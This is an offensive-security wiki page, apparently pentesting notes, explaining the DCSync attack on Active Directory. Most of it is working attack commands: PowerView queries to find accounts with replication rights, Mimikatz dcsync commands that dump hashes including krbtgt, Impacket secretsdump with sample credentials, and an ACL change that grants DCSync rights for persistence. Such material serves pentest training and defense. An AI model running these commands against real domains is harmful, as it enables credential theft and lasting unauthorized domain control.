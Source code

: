 # 🔨 DCSync Attack

## Description

A DCSync attack is where an adversary impersonates a Domain Controller (DC) and requests replication changes from a specific DC. The DC in turn returns replication data to the adversary, which includes account hashes.

By default the following groups have permissions to perform this action:

* Administrators
* Domain Admins
* Enterprise Admins
* Domain Controllers

However, in an incorrectly configured environment it may be possible to hunt down users who have the required individual permissions without being in any of the aforementioned groups. These individual permissions are:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes In Filtered Set

## Enumeration

The following commands can be used with `PowerView` to enumerate for users with the required rights.

```bash
Get-ObjectACL "DC=security,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}

# OR

Get-ObjectAcl -DistinguishedName "DC=Security,DC" -ResolveGUIDs | ?{($_.IdentityReference -match "studentx") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

![](<../../../../../.gitbook/assets/image (1967).png>)

We can take the individual SID's and attempt to identify the related User Principal Names (UPN's).

{% tabs %}
{% tab title="Powershell AD Module" %}
```bash
Get-ADUser -Identity S-1-5-21-2543357152-2466851693-2862170513-1121
Get-ADGroup -Identity S-1-5-21-2543357152-2466851693-2862170513-527
```
{% endtab %}
{% endtabs %}

![](<../../../../../.gitbook/assets/image (1968).png>)

**Using PowerView**

```bash
Get-ObjectAcl -Identity "dc=security,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2543357152-2466851693-2862170513-1121"
```

**Using Wmic**

```bash
wmic useraccount get name,sid
```

![](<../../../../../.gitbook/assets/image (1970).png>)

## Exploitation

`Mimikatz` can be used to pull hashes from account.

{% hint style="info" %}
Mimikatz needs to be run as an account that can perform replication.
{% endhint %}

```bash
lsadump::dcsync /domain:<Domain> /user:<Users-Hash-To-Dump>
lsadump::dcsync /domain:security.local /user:new_admin
lsadump::dcsync /user:security\krbtgt"
```

![](<../../../../../.gitbook/assets/image (1971) (1).png>)

### Secretsdump.py

Impacket's secretsdumpy.py can be used to dump all domain hashes, providing the hash or password is known for an account with permission to perform replication.

```bash
sudo python2 secretsdump.py <Domain>/<User>:<Password>@<IP>
sudo python2 secretsdump.py security/Moe:'Password123!'@10.10.10.10
```

![](<../../../../../.gitbook/assets/image (1972).png>)

## Persistence

`PowerView` can be used to give a user object the DCSync rights for future exploitation.

```bash
Add-ObjectACL -TargetDistinguishedName "DC=Security,DC=local" -PrincipalSamAccountName 'Moe' -Rights DCSync
```

### References: [https://www.exploit-db.com/docs/48298](https://www.exploit-db.com/docs/48298)
